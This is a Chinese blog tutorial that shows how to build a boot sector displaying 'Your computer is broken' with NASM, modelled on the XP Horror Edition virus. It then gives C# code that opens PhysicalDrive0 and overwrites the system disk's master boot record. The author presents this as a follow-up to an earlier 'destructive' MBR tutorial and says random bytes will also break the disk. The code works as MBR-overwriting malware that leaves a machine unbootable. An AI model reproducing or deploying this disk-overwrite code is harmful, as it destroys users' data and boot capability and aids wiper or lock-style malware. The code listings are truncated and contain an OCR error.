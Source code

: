 # 使用汇编生成MBR并使用C#修改

by ![Xbodw]([../Resources/Xbodw.png])

该文章遵循 [Attribution-NonCommercial 4.0 International]()许可协议.

## 前言

之前我分享了一个使用[Csharp(简称C#,后文用此称)](https://learn.microsoft.com/zh-cn/dotnet/csharp/tour-of-csharp/)修改[MBR](https://baike.baidu.com/item/%E4%B8%BB%E5%BC%95%E5%AF%BC%E8%AE%B0%E5%BD%95/7612638)的方法,但是,MBR是由不同进制的字符组成的,我们想要让MBR~~变成
硬盘逻辑锁~~ 显示 我们想要的字符串该怎么办？
   
   修改MBR教程链接 [016281261](?id=016281261)

该操作极其危险,需要对电脑及其熟练的人才能操作,建议在虚拟机内运行,否则,后果自负!

## 开始之前

不知大家是否知道世界上的几大电脑病毒,其中比较恐怖的有 Windows XP horror Edition.用网上简洁一点的话说,该病毒涵盖了以下几个特征:
 1.伪装成XP升级包
 
 2.运行后改注册表
 
 2.运行后改[MBR](#前言)
 
 3.修改系统文件,常见的有 666.sys

 4.进度达`66%`的时候原本伪装的XP升级界面界面变红

 5.界面变红后出现几大恐怖节目

给大家看一下该病毒改完MBR后的效果图:

![XP Horror Edition的效果图](https://ts3.cn.mm.bing.net/th?id=OIP-C.OiD8YLDkDHFoGrBmT0D4SwHaEo)

这就是通过修改MBR实现的.想要改这样的MBR不是一件简单的事.

## 准备工作

前往 [NASM官网(2.16.01下载链接)](https://www.nasm.us/pub/nasm/releasebuilds/2.16.01/win64/nasm-2.16.01-installer-x64.exe) 下载NASM.
使用汇编语言这种底层语言修改MBR是比较简单的事情.

下载完之后打开安装程序,无脑点击Next 下一步即可,安装完成后创建一个空目录.

使用资源管理器打开刚才的空目录,在地址栏键入 `cmd` 并回车,打开命令提示符.

输入`nasm --version`查看版本号,确保nasm没有报错后进行下一步.

在这个空目录里新建MBR.asm,使用Notepad++等专业工具打开,在里面输入以下内容并保存.
```asm
    org 07c00h          ; 使其加载到7c00处
    mov ax, cs
    mov ds, ax
    mov es, ax
    call    DispStr         ; 调用显示字符串例程
    jmp $          ; 无限循环显示
    DispStr:
    mov ax, BootMessage
    mov bp, ax          ; ES:BP = 串地址
    mov cx, 16          ; CX = 串长度
    mov ax, 01301h      ; AH = 13,  AL = 01h
    mov bx, 000ch       ; 页号为0(BH = 0) 黑底红字(BL = 0Ch,高亮)
    mov dl, 0
    int 10h         ; 10h 号中断
    ret
BootMessage:        db  "Your computer is broken"
times   510-($-$$)   db  0   ; 填充剩下空间为512B
dw  0xaa55
```
保存后在打开的命令提示符内输入 `nasm MBR.asm -o MBR.bin`(可以不带 .bin扩展名)

随后在命令提示符内输入
```batch
echo= > boot.img
```
打开 [FloppyWriter](https://raw.githubusercontent.com/huangyingw/FloppyWriter/master/Release/FloppyWriter.exe)(需要先登录Github),点击 `Write FIle to Image`,选择刚才生成的MBR文件,然后会弹出第二个选择框,选择boot.img.

此时如果弹出 成功,表示操作成功.

随后我们可以打开Vmware WorkStation,选择任意虚拟机(创建虚拟机网上有教程,此处不再赘述),点击 "编辑虚拟机设置",


![添加硬件](https://img2.imgtp.com/2024/01/27/t3DmTfqI.png)

再点击"添加(A)",


![选择硬件类型](https://img2.imgtp.com/2024/01/27/CRvXhzMk.png)

选择”软盘驱动器"


![选择软盘加载方式](https://img2.imgtp.com/2024/01/27/wjmfvEjm.png)

再选择“使用软盘镜像文件",点击浏览,


![浏览boot.img](https://img2.imgtp.com/2024/01/27/VLyaOS3C.png)

选择boot.img镜像并点击确定,随后可以启动虚拟机查看文字效果.

![最终演示效果](https://img2.imgtp.com/2024/01/27/qAtJgI41.png)

上述代码由于字节过长,文字显示不全只能显示 "you computer is",需要把文字搞短一点点.使用MBR只能显示很短的文字,可以使用EFI显示文字.后续可能会出如何编写EFI显示文字的教程.

回到正题,我们已经生成了汇编ASM文件.接下来可以使用HexView工具查看MBR的Hex数据,也就是类似于这样开头的数据:

![MBR代码的Hex](https://img2.imgtp.com/2024/01/27/HMEP2ZQb.png)


由于HexView工具本身不支持复制MBR数据,所以我们只能截图并使用文字识别(注意识别出的文字切记要比对Hex原文,无需比对全部,比对一下里面不是`00`的地方即可.)

随后在`Visual Studio`中创建一个 Csharp ConsoleApp (控制台应用) 项目,我以ConsoleApp3为命名,且看`Main`函数的实现代码:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

namespace ConsoleApp3
{
    internal class Program
    {
        static void Main(string[] args)
        {
            string hexCode = @"8C C8 8E D8 8E CO E8 02
00 00 ......"; //把你的识别出来的MBR码放进去

            Regex regex = new Regex("[0-9A-Fa-f]{2}");
            MatchCollection matches = regex.Matches(hexCode);

            byte[] scode = new byte[matches.Count];

            for (int i = 0; i < matches.Count; i++)
            {
                byte b = Convert.ToByte(matches[i].Value, 16);
                scode[i] = b;
            }
            string hexString = string.Join(" ", scode.Select(b => "0x" + b.ToString("X2")));
            Console.WriteLine(hexString); //打印转换后的MBR数组
            Console.ReadLine(); //保持窗口不关
        }
    }
}

```
输入完代码按下`Ctrl`+`Shift`+`S`组合键保存代码(此代码可以多次利用,可谓是~~摸鱼好帮手~~ 一劳永逸).此时如果你按下了`F5`,就会打开一个控制台窗口.

![输出效果](https://img2.imgtp.com/2024/01/27/d6DOZveR.png)


如果你看到的是这种类型的(0x开头的数字或字母),代表你的MBR没问题.


不对呀,直接在每个MBR前面加0x不就行了? 不不不,~~懒~~ 一劳永逸不是很好吗?


如果报错了,那么可能是你在文字识别MBR图片的时候某个地方出错了,建议再次检查.

复制输出的那一堆 `0x` 开头的字符(从头到尾)

接下来重点来了,本次修改MBR的方式有一些不同,之前的[016281261](?id=016281261)是直接破坏,而本次是修改,如果乱填MBR码,也可以达到破坏的效果.

话不多说上代码:
```csharp
static void WriteMBR()
{
    byte[] scode = new byte[]
    {
        0x8C,0xC8,0x8E,0xD8,0x8E,0xE8,0x02,0xB9,0x10,0x00, ...                                 
    }; //自己之前通过控制台生成的MBR码
    uint dwBytesReturned;
    byte[] pMBR = new byte[512]; //MBR正好为 512 个字节
    Array.Clear(pMBR, 0, pMBR.Length);

    Array.Copy(scode, pMBR, scode.Length);
    /* pMBR[510] = 0x55; */
    /* pMBR[511] = 0xaa; */  //这两句代码其实是没必要的,如果你仔细留意之前控制台程序打印的MBR,你会发现结尾是有 0x55和0xaa的,加不加都没有关系

    IntPtr hDevice = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
    if (hDevice == IntPtr.Zero || hDevice.ToInt32() == -1)
    {
                MessageBox.Show("CreateFile failed..."); //创建硬盘文件失败
                return;
    }

    DeviceIoControl(hDevice, FSCTL_LOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);

    WriteFile(hDevice, pMBR, 512, out dwBytesReturned, IntPtr.Zero);
    DeviceIoControl(hDevice, FSCTL_UNLOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);
}
```

好了,本文章就到这里.如果你对我的文章满意,可不可以给我点一个三连或者赞?






 

